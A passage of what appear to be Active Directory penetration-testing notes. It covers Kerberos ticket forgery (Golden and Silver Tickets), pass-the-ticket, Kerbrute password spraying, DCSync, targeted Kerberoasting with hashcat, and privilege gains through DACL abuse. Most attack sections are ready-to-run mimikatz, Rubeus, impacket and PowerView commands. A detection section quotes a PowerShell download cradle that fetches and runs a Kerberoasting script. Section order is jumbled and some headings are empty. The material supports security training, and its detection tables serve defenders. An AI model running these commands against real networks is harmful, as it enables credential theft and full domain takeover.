Without admin rights: When using a C2 framework (Cobalt Strike, Covenant), use the maketoken feature instead of Rubeus's createnetonly. C2 frameworks map stdin/stdout to named pipes, allowing process interaction without administrative privileges.
# Get Domain SID
lookupsid.py [domain]/[user]@[dc-fqdn] -domain-sids
# Domain SID is: [domain-sid]
# Forge Silver Ticket with ticketer.py
# -spn specifies the SPN for the service ticket
ticketer.py -nthash [ntlm-hash] \
-domain-sid [domain-sid] \
-domain [domain] \
-spn cifs/[sql-fqdn] Administrator
# Saves: Administrator.ccache
# Use the ticket with smbclient
export KRB5CCNAME=./Administrator.ccache
smbclient.py -k -no-pass [sql-fqdn]
# Or get a shell (impacket modifies the SPN on the fly)
psexec.py -k -no-pass [sql-fqdn]
# nt authority\systemMethodology
-
mimikatz # sekurlsa::logonpasswords -
Get-DomainSID -
mimikatz # kerberos::golden /domain:DOMAIN /user:Administrator /sid:SID /rc4:HASH /target:HOST /service:cifs /ptt -
ticketer.py -nthash HASH -domain-sid SID -domain DOMAIN -spn cifs/HOST Administrator -
export KRB5CCNAME=./Administrator.ccache && psexec.py -k -no-pass HOST
7.9.3 Detection
Silver Tickets are harder to detect than Golden Tickets because they do not communicate with the Domain Controller. Detection indicators include:
- The Account DOMAIN field is blank in logon events on the target host.
- The Account DOMAIN field contains the FQDN instead of the short domain name.
- Service logon events without corresponding TGS request events on any DC.
- PAC validation failures when enabled.
Remediation
7.10 Pass-the-Ticket (PtT)
Pass-the-Ticket is a lateral movement technique that steals and reuses existing Kerberos tickets (TGT or TGS) without touching LSASS. This is increasingly important as hardened organizations protect LSASS with Credential Guard, PPL, and EDR monitoring. PtT avoids the need to extract password hashes.
Root cause: Kerberos tickets are bearer tokens. If an attacker can extract a valid TGT or TGS from memory, they can import it into their own session and use it to authenticate as the ticket's owner.
7.10.1 Sacrificial Processes
This is the most critical concept for Kerberos attacks. Overwriting an existing logon session's Kerberos ticket can take down services. If the local machine account (SYSTEM$) loses its ticket, it will not get a new one until reboot. If a service loses its ticket, it may not recover until the service restarts.
A sacrificial process creates a new logon session and imports tickets into that session, isolating ticket operations from the host's legitimate sessions. This requires local administrator privileges.
# Create a sacrificial process with Rubeus
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
# Note the LUID (e.g., 0xa4a39) and ProcessID for future commands7.10.2 Reading and Extracting Tickets
How it works under the hood: When you access \\dc01\c$, Windows uses the TGT in memory to request a TGS ticket for cifs/dc01. Running klist afterward shows both the TGT and the newly acquired TGS ticket.
Methodology
-
.\Rubeus.exe createnetonly /program:cmd.exe /show -
.\Rubeus.exe triage -
.\Rubeus.exe dump /luid:LUID /service:krbtgt /nowrap -
.\Rubeus.exe ptt /ticket:BASE64_TICKET -
dir \\target\c$ Enter-PSSession target
Remediation
# List all readable tickets
.\Rubeus.exe triage
# Check tickets in current session
klist
# Extract a specific TGT (by LUID and service)
.\Rubeus.exe dump /luid:0x89275d /service:krbtgt /nowrap
# Renew and import the extracted TGT into the current session
.\Rubeus.exe renew /ticket:doIFVjCCBVKgAwIBBaEDA...base64... /ptt
# Verify the imported ticket
klist
# Use the ticket for lateral movement
dir \\dc01\c$7.11 Account Enumeration and Password Spraying with Kerberos
Kerbrute leverages Kerberos AS-REQ messages to enumerate valid usernames and test passwords. This is fast (single UDP frame per attempt) and stealthier than LDAP or SMB-based methods because pre-authentication failures do not trigger the traditional "An account failed to log on" Event ID 4625.
Root cause: The KDC responds differently to AS-REQ based on whether the username exists. A PRINCIPAL UNKNOWN error indicates the username does not exist, while a prompt for pre-authentication confirms it does. For password spraying, a successful AS-REP confirms valid credentials.
7.11.1 Username Enumeration
# Install Kerbrute
mv ~/Downloads/kerbrute_linux_amd64 kerbrute
chmod +x ./kerbrute
# Enumerate valid usernames (does NOT cause logon failures or lockouts)
# Generates Event ID 4768 if Kerberos logging is enabled
kerbrute userenum users.txt --dc [dc-fqdn] -d [domain]7.11.2 Password Spraying
# Test a single password against all users
# WARNING: This DOES increment failed login count and CAN lock out accounts
# Generates Event IDs 4768 and 4771
kerbrute passwordspray users.txt [password] --dc [dc-fqdn] -d [domain]| Kerbrute Action | Lockout Risk | Event IDs Generated | Purpose |
|---|---|---|---|
userenum | None | 4768 (if Kerberos logging enabled) | Identify valid usernames |
passwordspray | Yes (increments failed logins) | 4768, 4771 | Test passwords against user list |
bruteuser | Yes (high risk) | 4768, 4771 | Brute-force single user |
bruteforce | Yes (high risk) | 4768, 4771 | Test user:password combos |
Methodology
-
kerbrute userenum users.txt --dc DC_IP -d DOMAIN -
kerbrute passwordspray users.txt 'Summer2024!' --dc DC_IP -d DOMAIN
Remediation
7.12 Detection
Detecting Kerberos abuse is challenging because attacks primarily exploit legitimate protocol features using stolen secrets, making requests appear normal. Detection requires centralized logging, baselining, and monitoring specific event codes.
7.12.2 Baselining
Establish a baseline of normal host activity, network membership, and authentication patterns. Feed logs from all hosts (including PowerShell logs) to a central SIEM. Filter out requests from accounts ending in $ (computer accounts, gMSA, trusts) as these use automatically generated strong passwords and are generally trustworthy.
7.12.3 Key Event Codes
| Event ID | Description | What to Monitor |
|---|---|---|
| 4624 | Successful Logon | Multiple authentications in short time; Logon Type 2 (Interactive), 3 (Network), 10 (Remote Interactive); DC logins |
| 4634 | Successful Logoff | Correlate with 4624 for session duration anomalies |
| 4672 | Special Privileges Assigned | Accounts accessing hosts/resources they normally do not; unexpected privilege assignments |
| 4768 | TGT Requested | Excessive requests; Kerberos user enumeration/spraying |
| 4769 | Service Ticket Requested | Kerberoasting detection (see query below) |
| 4770 | Service Ticket Renewed | Unusual ticket renewals |
| 4771 | Pre-auth Failed | Password spraying attempts |
Sample Kerberoasting detection query (Event 4769):
# Conditions to flag:
# - Event ID = 4769
# - Service Name != 'krbtgt'
# - Service Name does not end with '$'
# - Account Name does not match 'MachineName$@Domain'
# - Failure Code = '0x0' (success)
# - Ticket Encryption Type = '0x17' (RC4-HMAC -- weak, indicates Kerberoasting)
# - Ticket Options: '0x40810000'7.12.4 Detecting Golden and Silver Tickets
Look for anomalies in the logon structure of Events 4624/4634:
# Normal logon structure:
Security ID : DOMAIN\AccountID
Account Name : AccountID
Account Domain : DOMAIN
# Golden/Silver Ticket indicators:
# - Account Domain is BLANK
# - Account Domain contains the FQDN instead of short name (e.g., "testdomain.kerberoasted.org")
# - Account Domain contains "*.*.kiwi:" (Mimikatz artifact)
# - Account Name does not match the Security IDSilver Ticket events appear on the target host, while Golden Ticket events appear on the Domain Controller.
7.12.5 Encryption Type Monitoring
Attackers typically request RC4-HMAC ($23$) encryption because it is the weakest and fastest to crack. Rather than disabling RC4 entirely (which can break software), set AES as the preferred encryption type. This makes RC4 requests rare and easy to flag. Every RC4 encryption request should be investigated.
Consider deploying a honeypot SPN account with a strong password. If an RC4 TGS request is made for the honeypot account, it indicates Kerberoasting activity.
7.12.6 PowerShell Logging
Enable PowerShell logging via Group Policy:
# Path: Computer Configuration > Administrative Templates > Windows Components > Windows PowerShell
# Enable: "Turn on Module Logging" (minimum)
# Monitor these PowerShell event IDs:
# - 400, 800 (PowerShell log)
# - 4100, 4103, 4104 (PowerShell Operational log)PowerShell modules to log:
# Get the Domain SID
Import-Module .\PowerView.ps1
Get-DomainSID
# [domain-sid]
# Get the krbtgt hash via DCSync
mimikatz.exe
mimikatz # lsadump::dcsync /user:krbtgt /domain:[domain]
# Hash NTLM: 810d754e118439bab1e1d13216150299
# Forge the Golden Ticket and inject into memory
mimikatz # kerberos::golden /domain:[domain] /user:Administrator /sid:[domain-sid] /rc4:810d754e118439bab1e1d13216150299 /ptt
# Verify the ticket
klist
# Shows: Client: Administrator @ [domain]
# Server: krbtgt/[domain]
# Use the Golden Ticket
Enter-PSSession dc01
whoami
# [domain-short]\administrator7.8.2 Golden Ticket from Linux
# Get Domain SID
lookupsid.py [domain]/[user]@[dc-fqdn] -domain-sids
# Domain SID is: [domain-sid]
# Forge the Golden Ticket with ticketer.py
ticketer.py -nthash [ntlm-hash] \
-domain-sid [domain-sid] \
-domain [domain] Administrator
# Saves: Administrator.ccache
# Use the ticket
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass [dc-fqdn]
# nt authority\systemMethodology
-
mimikatz # lsadump::dcsync /user:krbtgt /domain:DOMAIN -
Get-DomainSID -
mimikatz # kerberos::golden /domain:DOMAIN /user:Administrator /sid:SID /rc4:HASH /ptt -
ticketer.py -nthash HASH -domain-sid SID -domain DOMAIN Administrator -
export KRB5CCNAME=./Administrator.ccache && psexec.py -k -no-pass dc01.domain.local
7.12.1 Detection Challenges
| Challenge | Explanation |
|---|---|
| Lack of Exploitation Artifacts | Kerberos attacks use stolen secrets to skip protocol steps; requests look normal except in behavioral context |
| Multiple Data Sources | Logs exist on the client, target host, and DC; organizations often have multiple DCs making manual triage impractical without centralized logging |
| Volume of Login Events | Thousands of legitimate TGT/TGS requests per day make anomalous requests easy to miss |
7.8.3 Detection
Golden Tickets are difficult to detect because they are valid TGTs. Windows event logs do not distinguish between legitimate and forged TGTs. However, detection is possible through:
- The Account DOMAIN field is blank in logon events.
- The Account DOMAIN field contains the FQDN instead of the NetBIOS domain name.
- Tickets with unusually long lifetimes (default Mimikatz golden ticket = 10 years).
- TGS requests where no corresponding AS-REQ/AS-REP exists on any DC.
Remediation
7.9 Silver Ticket
A Silver Ticket is a forged TGS ticket (Service Ticket) created using a service or machine account's NTLM hash. Unlike a Golden Ticket (which forges TGTs and requires the krbtgt hash), a Silver Ticket forges a Service Ticket for a specific service on a specific host and bypasses the Domain Controller entirely.
Root cause: The TGS ticket is encrypted with the service account's password hash. If an attacker obtains this hash (e.g., from a compromised computer's machine account), they can forge a TGS ticket with an arbitrary PAC, granting themselves any permissions. Since the forged ticket goes directly to the service without touching the KDC, no DC logs are generated, making Silver Tickets stealthier than Golden Tickets.
Requirements:
Persistence value: Machine account password rotation may be disabled, and AD does not prevent computer accounts from accessing resources. A Silver Ticket using a machine account hash can remain valid for a very long time.
7.9.1 Silver Ticket from Windows
# Get Domain SID
Import-Module .\PowerView.ps1
Get-DomainSID
# [domain-sid]
# Forge Silver Ticket with Mimikatz and inject into memory
# /rc4: the compromised machine/service account's NTLM hash
# /target: the target host
# /service: the SPN service class (cifs, http, ldap, etc.)
mimikatz # kerberos::golden /domain:[domain] /user:Administrator /sid:[domain-sid] /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:[sql-fqdn] /service:cifs /ptt
# Verify and use
klist
dir \\[sql-fqdn]\c$| Module | Purpose |
|---|---|
ActiveDirectory | AD module import and usage |
CimCmdlets | CIM/WMI interactions |
GroupPolicy | Group Policy modifications |
Microsoft.WSMan.Management | WinRM / web services |
NetAdapter / NetConnection | Network cmdlets |
PSScheduledJob / ScheduledTasks | Scheduled task management |
SmbShare | SMB activity |
Microsoft.PowerShell.* | All PowerShell modules (catches custom/imported modules) |
7.12.7 Suspicious PowerShell Activity Indicators
| Indicator | Description |
|---|---|
| Remote PowerShell attempts | Should only be used by admins; user-initiated remote PS is suspicious |
| .NET Framework downloads | ((New-Object Net.WebClient).DownloadString) is common for pulling tools |
Invoke-Expression / iex | Executes string as code; commonly used in download cradles |
| Encoded Commands | -enc, -E, -Encoded flags obscure command content |
Invoke-Mimikatz | Direct call to Mimikatz via PowerShell |
Invoke-TokenManipulation | PowerSploit token enumeration and impersonation |
Invoke-CredentialInjection | Creates logon with cleartext creds without triggering Event 4648 |
FromBase64String / Base64 | Base64 encoding/decoding to hide commands |
| Hidden Windows | -W Hidden, -WindowStyle Hidden conceals PS windows |
| Execution Policy Changes | -exec Bypass attempts to run untrusted scripts |
System.Reflection | Appears in logs after Mimikatz execution |
Example malicious download cradle:
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"7.12.8 AMSI (Anti-Malware Scan Interface)
AMSI in Windows 10/11 scans all script code before execution by PowerShell and other scripting engines, including code injected into memory or downloaded from the internet. The AV/AM solution must support AMSI (Microsoft Defender and some third-party products do). Enable AMSI to add another layer of protection against PowerShell-based attacks.
Methodology
7.13 Hardening and Mitigation Summary
| Attack | Key Mitigations |
|---|---|
| AS-REPRoasting |
|
| Kerberoasting |
|
| Unconstrained Delegation |
|
| Constrained Delegation |
|
| RBCD |
|
| Golden Ticket |
|
| Silver Ticket |
|
| Pass-the-Ticket |
|
General hardening principles:
Methodology
-
Get-ADUser -filter * -properties DoesNotRequirePreAuth,servicePrincipalName | where {$_.DoesNotRequirePreAuth -eq $true -or $_.servicePrincipalName -ne $null} -
findDelegation.py DOMAIN/user:pass -
Get-ADUser krbtgt -Property PasswordLastSet
8. DACL Attacks I
8.1 DACLs Overview
Within the Windows security ecosystem, tokens and security descriptors are the two main variables of the object security equation. Tokens identify the security context of a process or thread, while security descriptors contain the security information associated with an object. To enforce the Confidentiality pillar of the CIA triad, Windows uses Access Control Lists (ACLs): a mechanism that enumerates which system entities are permitted to access a resource and which access modes are granted to each entity (per RFC 4949).

Four general categories of access control policies exist:
| Policy | Acronym | Description |
|---|---|---|
| Discretionary Access Control | DAC | Controls access based on requestor identity and access rules. An entity with access may grant access to others at its own volition. Windows uses this model. |
| Mandatory Access Control | MAC | Access determined by system-enforced security labels. An entity cannot unilaterally grant access to others. |
| Role-based Access Control | RBAC | Access determined by organizational roles assigned to users. |
| Attribute-based Access Control | ABAC | Access determined by attributes of the subject, resource, environment, and action. |
Windows is a DAC operating system that uses Discretionary Access Control Lists (DACLs). Each item under "Permission entries" in the security tab of an AD object makes up the DACL. Individual entries (such as Full Control or Change Password) are Access Control Entries (ACEs) showing the access rights granted over the object.
8.1.1 Security Descriptors
Every Windows object (also called a securable object) has a security descriptor: a binary data structure specifying who can perform what actions on the object. Windows represents it internally via the SECURITY_DESCRIPTOR struct with six main fields:
typedef struct _SECURITY_DESCRIPTOR {
BYTE Revision;
BYTE Sbz1;
SECURITY_DESCRIPTOR_CONTROL Control;
PSID Owner;
PSID Group;
PACL Sacl;
PACL Dacl;
} SECURITY_DESCRIPTOR, *PISECURITY_DESCRIPTOR;Security descriptors come in two forms:
- Absolute: contains pointers to the actual data. This is what you encounter when interacting with Windows objects in memory.
- Self-relative: stores actual data in a contiguous memory block rather than using pointers. Used for storing on disk or transmitting over the wire.
Control flags: The Control member is a 16-bit set of bit flags that qualify the meaning of the security descriptor. Key flags include:
| Flag | Hex Value | Meaning |
|---|---|---|
SE_DACL_PRESENT | 0x0004 | Indicates the security descriptor has a DACL. If not set, or if the DACL is NULL, full access is allowed to everyone. An empty DACL permits access to no one. |
SE_DACL_PROTECTED | 0x1000 | Prevents the DACL from being modified by inheritable ACEs. |
SE_DACL_AUTO_INHERITED | 0x0400 | DACL supports automatic propagation of inheritable ACEs. |
SE_SACL_PRESENT | 0x0010 | Indicates the security descriptor has a SACL. |
SE_SELF_RELATIVE | 0x8000 | Self-relative format (contiguous memory block). |
SE_OWNER_DEFAULTED | 0x0001 | Owner was set by a default mechanism. |
Flags can be combined. For example, a Control value of 0x8014 means SE_DACL_PRESENT + SE_SACL_PRESENT + SE_SELF_RELATIVE.
Owner: The Owner member contains a pointer to the SID of the object's owner. Object owners are always implicitly granted RIGHT_WRITE_DAC (WriteDacl) and RIGHT_READ_CONTROL (ReadControl). This is critical because ownership alone allows modifying the entire DACL.
SACL and DACL:
Internally, both SACL and DACL use the same ACL struct:
typedef struct _ACL {
BYTE AclRevision;
BYTE Sbz1;
WORD AclSize;
WORD AceCount;
WORD Sbz2;
} ACL;8.1.2 Generic and Object-Specific ACEs
An ACE contains a set of user rights and a SID identifying the principal for whom rights are allowed, denied, or audited. Windows represents ACEs internally via ACE_HEADER:
typedef struct _ACE_HEADER {
BYTE AceType;
BYTE AceFlags;
WORD AceSize;
} ACE_HEADER;Each ACE also has a Mask member (of type ACCESS_MASK) defining rights and a SidStart holding the trustee's SID. A DACL can contain nine types of ACEs, but four are most important:
| ACE Type | Implication |
|---|---|
ACCESS_ALLOWED_ACE | Allows a security principal to access an AD object. Specifies permissions such as read, write, or modify. |
ACCESS_ALLOWED_OBJECT_ACE | Grants access to an object and any child objects it contains. Used extensively in Active Directory for object-specific permissions. |
ACCESS_DENIED_ACE | Denies a security principal access to an AD object. |
ACCESS_DENIED_OBJECT_ACE | Restricts access to an object and any child objects it contains. |
Object-specific ACEs (those containing the keyword "Object") are used only within Active Directory. In addition to the standard ACE members, object-specific ACEs contain:
- ObjectType: a GUID identifying a child object type, property set, property, extended right, or validated write.
- InheritedObjectType: specifies the type of child object that can inherit the ACE.
- Flags: indicates whether
ObjectTypeandInheritedObjectTypeare present.
8.1.3 Viewing DACLs of AD Objects Manually
Using dsacls: dsacls is a native Windows binary (command-line equivalent to the Security tab in ADUC Properties) that displays and modifies ACEs/permissions in ACLs of AD objects.
# View all ACLs for the user Yolanda
dsacls.exe "cn=Yolanda,cn=users,dc=[domain-short],dc=local"
# View only the permissions Pedro has over Yolanda
dsacls.exe "cn=Yolanda,cn=users,dc=[domain-short],dc=local" | Select-String "Pedro"Using PowerShell with DirectoryServices: The DirectorySearcher class within the .NET System.DirectoryServices namespace allows accessing DACLs programmatically. First retrieve the security descriptor as a binary blob, then parse it using ActiveDirectorySecurity:
# Get the binary security descriptor
$directorySearcher = New-Object System.DirectoryServices.DirectorySearcher('(samaccountname=Yolanda)')
$directorySearcher.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl -bor [System.DirectoryServices.SecurityMasks]::Owner
$binarySecurityDescriptor = $directorySearcher.FindOne().Properties.ntsecuritydescriptor[0]
# Parse the binary security descriptor
$parsedSecurityDescriptor = New-Object System.DirectoryServices.ActiveDirectorySecurity
$parsedSecurityDescriptor.SetSecurityDescriptorBinaryForm($binarySecurityDescriptor)
# View all ACEs
$parsedSecurityDescriptor.Access
# Filter for a specific principal
$parsedSecurityDescriptor.Access | Where-Object {$_.IdentityReference -like '*Pedro*'}8.1.4 Viewing DACLs of Processes
Process DACLs can be viewed using local kernel debugging (WinDbg) or AccessChk from Sysinternals:
# Using AccessChk to view the security descriptor of explorer.exe
.\accesschk64.exe -p "explorer.exe" -lThe key difference between DACLs of AD objects and normal objects is the values that the Mask member can have; AD objects use a richer set of object-specific access rights.
Methodology
-
dsacls.exe "cn=TargetUser,cn=users,dc=domain,dc=local" -
$ds = New-Object System.DirectoryServices.DirectorySearcher('(samaccountname=TARGET)') $ds.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl -bor [System.DirectoryServices.SecurityMasks]::Owner $sd = New-Object System.DirectoryServices.ActiveDirectorySecurity $sd.SetSecurityDescriptorBinaryForm($ds.FindOne().Properties.ntsecuritydescriptor[0]) $sd.Access -
.\accesschk64.exe -p "process.exe" -l
8.2 DACLs Enumeration
Before attacking DACLs, you must understand how to interpret Access Masks and Access Rights. These determine exactly what a principal can or cannot do to an object. Effective enumeration requires understanding these bitmasks and using automated tools to scale analysis across the domain.
8.2.1 Access Masks and Access Rights
An Access Mask is a 32-bit value within every ACE that specifies the allowed or denied rights. For AD objects, the access mask is interpreted using four categories of bits:
Generic Access Rights Bits:
| Display Name | Common Name | Hex Value | Interpretation |
|---|---|---|---|
GenericAll | GA / RIGHT_GENERIC_ALL | 0x10000000 | Full control: create/delete children, read/write properties, extended rights. Equivalent to DE|RC|WD|WO|CC|DC|DT|RP|WP|LC|LO|CR|VW for AD objects. |
GenericWrite | GW / RIGHT_GENERIC_WRITE | 0x40000000 | Read permissions, write all properties, perform all validated writes. Equivalent to RC|WP|VW. |
GenericRead | GR / RIGHT_GENERIC_READ | 0x80000000 | Read permissions, read all properties, list name and contents. Equivalent to RC|LC|RP|LO. |
GenericExecute | GX / RIGHT_GENERIC_EXECUTE | 0x20000000 | Read permissions, list contents of container. Equivalent to RC|LC. |
Standard Access Rights Bits:
| Display Name | Common Name | Hex Value | Interpretation |
|---|---|---|---|
WriteDacl | WD / RIGHT_WRITE_DAC | 0x00040000 | Modify the object's DACL. Allows granting yourself or others any permission. |
WriteOwner | WO / RIGHT_WRITE_OWNER | 0x00080000 | Modify the object's owner. Can only take ownership (not transfer to others). |
ReadControl | RC / RIGHT_READ_CONTROL | 0x00020000 | Read the security descriptor data (excluding SACL). |
Delete | DE / RIGHT_DELETE | 0x00010000 | Delete the object. |
Object-Specific Access Rights Bits:
| Common Name | Hex Value | Interpretation |
|---|---|---|
| CR / RIGHT_DS_CONTROL_ACCESS | 0x00000100 | Perform an operation controlled by a control access right. If ObjectType contains a GUID, it controls that specific right. Without a GUID, it controls all extended rights (AllExtendedRights). |
| WP / RIGHT_DS_WRITE_PROPERTY | 0x00000020 | Write properties. With a GUID, write specific property/property set. Without a GUID, write all properties. |
| VW / RIGHT_DS_WRITE_PROPERTY_EXTENDED | 0x00000008 | Perform validated writes. Also referred to as Self. |
8.2.2 Extended Access Rights and Validated Writes
Extended (Object-specific) Access Rights abused here:
| Display Name | Common Name | Rights-GUID | Interpretation |
|---|---|---|---|
| Reset Password | User-Force-Change-Password | 00299570-246d-11d0-a768-00aa006e0529 | Reset a user's password without knowing the old one. Distinct from User-Change-Password which requires the old password. |
| Replicating Directory Changes | DS-Replication-Get-Changes | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | Replicate changes from a Naming Context. Required (along with Get-Changes-All) for DCSync. |
| Replicating Directory Changes All | DS-Replication-Get-Changes-All | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 | Replicate secret domain data. Required (along with Get-Changes) for DCSync. |
Validated Writes that can be abused:
| Display Name | Common Name | Rights-GUID | Interpretation |
|---|---|---|---|
| Add/Remove self as member | Self-Membership | bf9679c0-0de6-11d0-a285-00aa003049e2 | Edit the member attribute, enabling self-addition to groups. |
| Validated write to SPN | Validated-SPN | f3a64788-5306-11d1-a9c5-0000f80367c1 | Edit the servicePrincipalName attribute. Enables Targeted Kerberoasting. |
8.2.3 Enumerating DACLs with dacledit.py
dacledit.py from the ShutdownRepo Impacket fork is the primary Linux-based tool for reading and modifying AD object DACLs. Installation requires cloning the forked repository and setting up a Python virtual environment:
# Clone and install
git clone https://github.com/ShutdownRepo/impacket -b dacledit
cd impacket
python3 -m venv .dacledit
source .dacledit/bin/activate
python3 -m pip install .Key dacledit.py arguments:
| Argument | Purpose |
|---|---|
-action {read,write,remove,backup,restore} | Operation to perform. Default is read. |
-target NAME | sAMAccountName of the object whose DACL to read/edit. |
-target-dn DN | Distinguished Name of the target (for domain-level objects). |
-principal NAME | sAMAccountName of the principal to filter in the DACL. |
-rights {FullControl,ResetPassword,WriteMembers,DCSync} | Predefined rights to write/remove. Default is FullControl. |
-rights-guid GUID | Manual GUID for custom extended access rights. |
-file FILENAME | File for backup/restore operations. |
-inheritance | Enable ACE inheritance flags. Useful for containers/OUs. |
# Read the DACL of a user
python3 dacledit.py -target [user] -dc-ip [target-ip] [domain]/[user]:'[password]'
# Filter for a specific principal's rights over a target
python3 dacledit.py -principal [user] -target Rita -dc-ip [target-ip] [domain]/[user]:[password]8.2.4 Auditing DACLs with BloodHound
Manual enumeration of DACLs does not scale; the sheer number of ACEs across a domain makes manual analysis impractical. BloodHound collects all DACLs and correlates them into graph models, making abusable access rights easy to discover.
BloodHound separates control rights into two categories:
- Inbound Control Rights: equivalent to inspecting an object's DACL (who has rights over this object?).
- Outbound Control Rights: aggregation of all references to an object's SID across all DACLs in the domain (what does this object have rights over?).
Methodology
-
git clone https://github.com/ShutdownRepo/impacket -b dacledit && cd impacket python3 -m venv .dacledit && source .dacledit/bin/activate && python3 -m pip install . -
python3 dacledit.py -principal ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS -
Import-Module .\PowerView.ps1 $userSID = (Get-DomainUser -Identity ATTACKER).objectsid Get-DomainObjectAcl -Identity TARGET -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID} -
# Cypher queries for common abuse edges MATCH p=((n)-[r:ForceChangePassword|GenericAll|AllExtendedRights]->(m)) RETURN p MATCH p=((n)-[r:WriteDacl|WriteOwner]->(m)) RETURN p MATCH p=((n)-[r:ReadLAPSPassword]->(m)) RETURN p MATCH p=((n)-[r:ReadGMSAPassword]->(m)) RETURN p
8.3 Targeted Kerberoasting
Standard Kerberoasting targets accounts that already have a servicePrincipalName (SPN) set. Targeted Kerberoasting goes further: when an attacker controls an account with write access to the servicePrincipalName attribute of another user, they can set an SPN on that user, request a TGS ticket encrypted with the target's NTLM hash, crack it offline, and then remove the SPN to cover their tracks.
Prerequisites: The attacking principal must have one of: GenericAll, GenericWrite, WriteProperty, WriteSPN, or Validated-SPN over the target account.
8.3.1 Identifying Vulnerable Accounts
From Linux (dacledit.py):
python3 dacledit.py -principal [user] -target Rita -dc-ip [target-ip] [domain]/[user]:[password]Look for ACEs where the Access mask is WriteProperty and the Object type GUID is Validated-SPN (f3a64788-5306-11d1-a9c5-0000f80367c1).
From Windows (PowerView):
Import-Module .\PowerView.ps1
$userSID = (Get-DomainUser -Identity [user]).objectsid
Get-DomainObjectAcl -Identity rita | ?{$_.SecurityIdentifier -eq $userSID}Look for ActiveDirectoryRights: WriteProperty with ObjectAceType: f3a64788-5306-11d1-a9c5-0000f80367c1.
8.3.2 Targeted Kerberoasting from Linux
targetedKerberoast.py automates the entire attack: for each user without an SPN, it sets one (using the write access), requests the Kerberoastable hash, and then removes the temporary SPN.
# Install
git clone https://github.com/ShutdownRepo/targetedKerberoast
cd targetedKerberoast
python3 -m pip install -r requirements.txt
# Execute targeted Kerberoasting against a specific user
python3 targetedKerberoast.py -vv -d [domain] -u [user] -p [password] --request-user rita --dc-ip [target-ip]The tool will output a hash like $krb5tgs$23$*Rita$INLANEFREIGHT.LOCAL$inlanefreight.local/Rita*$... and then automatically remove the SPN.
If you get KRB_AP_ERR_SKEW (Clock skew too great), sync your clock: sudo ntpdate DC_IP_ADDRESS.
8.3.3 Targeted Kerberoasting from Windows
Using PowerView, the attack requires three manual steps: set an SPN, request the ticket, then clear the SPN.
# Step 1: Confirm no SPN exists
Get-DomainUser Rita | Select serviceprincipalname
# Step 2: Set a fake SPN
Set-DomainObject -Identity rita -Set @{serviceprincipalname='nonexistent/BLAHBLAH'} -Verbose
# Step 3: Request the TGS ticket hash
$User = Get-DomainUser Rita
$User | Get-DomainSPNTicket | Select-Object -ExpandProperty Hash
# Step 4: Remove the SPN (cleanup)
Set-DomainObject -Identity Rita -Clear serviceprincipalname -Verbose8.3.4 Cracking the Hash
Methodology
-
python3 dacledit.py -principal ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS -
python3 targetedKerberoast.py -vv -d DOMAIN -u USER -p PASS --request-user TARGET --dc-ip DC_IP -
Set-DomainObject -Identity TARGET -Set @{serviceprincipalname='fake/SPN'} $User = Get-DomainUser TARGET; $User | Get-DomainSPNTicket | Select -ExpandProperty Hash Set-DomainObject -Identity TARGET -Clear serviceprincipalname -
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt -
crackmapexec smb DC_IP -u TARGET -p CRACKED_PASSWORD
8.4 AddMembers
The AddMembers abuse allows an attacker to add users to a group when they control a principal with write access to the group's member attribute. This is possible when the controlled account has GenericAll, GenericWrite, Self (Self-Membership), AllExtendedRights, or WriteMembers over the target group.
Important distinction: Self-Membership only allows adding yourself to the group; not arbitrary users. Other rights like GenericAll or WriteMembers allow adding any user.
8.4.1 Identifying Vulnerable Groups
From Linux (dacledit.py):
python3 dacledit.py -principal [user] -target 'Backup Operators' -dc-ip [target-ip] [domain]/[user]:[password]Look for Access mask: Self with Object type (GUID): Self-Membership (bf9679c0-0de6-11d0-a285-00aa003049e2).
From Windows (PowerView):
Import-Module .\PowerView.ps1
$userSID = (Get-DomainUser -Identity [user]).objectsid
Get-DomainObjectAcl -Identity 'Backup Operators' -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}8.4.2 Abusing AddMember from Linux
The net rpc tool can add users to groups, but it does not work with Self-Membership rights because net uses the SMB/RPC protocol. For Self-Membership, you must use the LDAP protocol instead.
# Query group membership
net rpc group members 'Backup Operators' -U [domain]/[user]%[password] -S [target-ip]
# Attempt to add user via net (will FAIL with Self-Membership)
net rpc group addmem 'Backup Operators' [user] -U [domain]/[user]%[password] -S [target-ip]
# Result: Could not add [user] to Backup Operators: NT_STATUS_ACCESS_DENIEDUsing LDAP (Python script): When net fails due to Self-Membership limitations, use an LDAP-based script that modifies the group's member attribute directly:
python3 addusertogroup.py -d [domain] -g "Backup Operators" -a [user] -u [user] -p [password]The script uses the ldap3 library to connect to AD, find the group and user by their DN, and issue a MODIFY_ADD operation on the member attribute. This works because LDAP directly modifies the attribute, bypassing the SMB/RPC layer that enforces additional checks.
The script requires DNS name resolution. Ensure the DC's IP is configured in /etc/hosts.
# Verify group membership after adding
net rpc group members 'Backup Operators' -U [domain]/[user]%[password] -S [target-ip]8.4.3 Abusing AddMember from Windows
On Windows, net localgroup / net group also fails with Self-Membership. Use PowerView's Add-DomainGroupMember instead, which uses the .NET System.DirectoryServices.AccountManagement namespace:
# Query membership
net localgroup "Backup Operators"
# (Use 'net group "Backup Operators" /domain' from domain-joined workstations)
# Add user via PowerView
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "Backup Operators" -Members [user] -Verbose8.4.4 Abusing Newly Gained Privileges (Windows)
After adding to a group like Backup Operators, you must re-authenticate to get a new ticket with the updated group membership. Launch a new cmd.exe as Administrator (required for SeBackupPrivilege due to UAC).
# Verify privileges
whoami /priv
# Should see: SeBackupPrivilege, SeRestorePrivilege
# Save SAM and SYSTEM hives
reg save hklm\sam C:\users\Public\sam
reg save hklm\system C:\users\Public\system
# Create diskshadow script for NTDS.dit extraction
